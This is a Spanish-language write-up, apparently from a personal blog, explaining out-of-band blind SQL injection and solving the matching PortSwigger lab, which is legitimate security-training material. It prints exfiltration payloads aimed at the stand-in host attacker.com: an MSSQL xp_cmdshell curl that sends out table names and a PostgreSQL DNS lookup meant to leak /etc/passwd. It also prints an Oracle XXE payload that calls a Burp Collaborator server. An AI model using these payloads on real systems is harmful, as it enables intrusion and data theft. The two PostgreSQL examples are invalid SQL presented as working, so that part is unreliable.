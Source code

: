 ```yaml
---
title: "15 Blind SQL injection with out-of-band interaction"
collection: publications
category: portswigger
permalink: /publications/SQLi/15_Blind SQL injection with out-of-band interaction
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL para provocar una búsqueda DNS a Burp Collaborator.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with out-of-band interaction'
---
```


# Explicación de este tipo de ataque

Blind SQL Injection con Interacción Out-of-Band (OOB) es una técnica avanzada de inyección SQL que permite exfiltrar datos de una base de datos a través de canales secundarios, en lugar de depender de la respuesta directa de la aplicación web. Esta técnica se utiliza cuando:

* La respuesta de la aplicación no refleja directamente los resultados de la consulta SQL.
* No se pueden usar demoras basadas en tiempo (time-based blind SQLi).

En estos casos, puedes enviar cargas útiles que generen solicitudes hacia servicios externos (como un servidor controlado por el atacante) para confirmar que la inyección SQL ha sido exitosa o para extraer información.

# ¿Cómo funciona?

En lugar de buscar una respuesta directa o medir tiempos de demora, se aprovechan funciones que permiten realizar interacciones de red o de sistema operativo desde la base de datos hacia un recurso externo. Estas interacciones pueden incluir:

* Realizar una solicitud HTTP/DNS hacia un servidor externo controlado por el atacante.
* Usar comandos del sistema operativo (si la base de datos permite su ejecución) para interactuar con servicios externos.

# Casos comunes de interacción Out-of-Band

## 1. Exfiltración DNS
Se utilizan funciones de la base de datos para realizar una consulta DNS hacia un servidor controlado por el atacante. El nombre de dominio puede codificar datos exfiltrados, como nombres de tablas, columnas o datos específicos.

Ejemplo en PostgreSQL:

```sql
' || (SELECT extract(dns FROM pg_read_file('/etc/passwd') INTO '[your-server].attacker.com'))--
```

En este caso:

* La carga útil fuerza a la base de datos a realizar una consulta DNS hacia un servidor del atacante `(your-server.attacker.com)`.
* El atacante puede capturar esta interacción en su servidor DNS y decodificar los datos exfiltrados.

## 2. Uso de solicitudes HTTP

Algunas bases de datos permiten realizar solicitudes HTTP. Estas solicitudes se pueden usar para enviar datos al atacante.

Ejemplo en Microsoft SQL Server `(usando xp_cmdshell)`:

```sql
'; exec xp_cmdshell 'curl http://attacker.com?data=(SELECT TOP 1 name FROM sysobjects WHERE xtype=''U'')'; --
```

En este caso:

* Se usa `xp_cmdshell` para ejecutar un comando del sistema operativo.
* `curl` realiza una solicitud HTTP hacia el servidor del atacante con el primer nombre de tabla.

## Registros DNS o HTTP dinámicos

En algunos casos, los datos pueden ser exfiltrados directamente como parte del nombre del dominio o parámetros HTTP. Por ejemplo:

Si intentas extraer el nombre de una tabla llamada `users`:

```sql
' || (SELECT pg_sleep(0) WHERE table_name='users' INTO '[users.attacker.com]')--
```

# Beneficios de la interacción Out-of-Band
* No requiere respuesta directa: Es útil cuando las respuestas de la aplicación no reflejan los resultados de la consulta SQL.
* Bypass de restricciones: Puede eludir restricciones en la aplicación o WAFs que bloqueen consultas SQL convencionales.
* Exfiltración indirecta: Permite extraer datos incluso si no se muestran directamente en la aplicación.

# Limitaciones
* Requiere acceso a funciones específicas: Como consultas DNS, HTTP o comandos del sistema operativo, que pueden estar deshabilitadas por configuraciones de seguridad.
* Visibilidad: Las interacciones de red hacia dominios externos pueden ser detectadas por sistemas de monitoreo (IDS/IPS).

![logo]({{site.url}}/images/SQLi/sqli-15/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-15/descripcion.png)

## Objetivo del laboratorio

Explotar una vulnerabilidad SQLi y provocar una busqueda DNS.

## Abrir el Burp Collaborator client

Abrimos el `collaborator` de Burp Suite y presionamos en `Copy to clipboard` nos copiara un dato y lo guardamos. Es un `servidor` donde llegaran las consultas.

`c2fsi8n5y9x07iboz6x97z124takybm0.oastify.com`

![Collaborator]({{site.url}}/images/SQLi/sqli-15/collaborator.png)

## Cheat Sheet

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![Cheat]({{site.url}}/images/SQLi/sqli-15/cheat.png)

Vamos a probar cada uno de los Payloads que nos proporciona la pagina a ver con que motor esta corriendo.

```sql
'|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://SERVIDOR-COLLABORATOR/"> %remote;]>'),'/l') FROM dual)--
```

![Payload]({{site.url}}/images/SQLi/sqli-15/payload.png)

Y revisamos la pestaña de `Collaborator` y presionamos `Poll now` para recibir las peticiones. Y vemos que hemos recibido el datos de la consulta.

![Poll]({{site.url}}/images/SQLi/sqli-15/poll.png)

# Aprobado

![Aprobado]({{site.url}}/images/SQLi/sqli-15/aprobado.png)

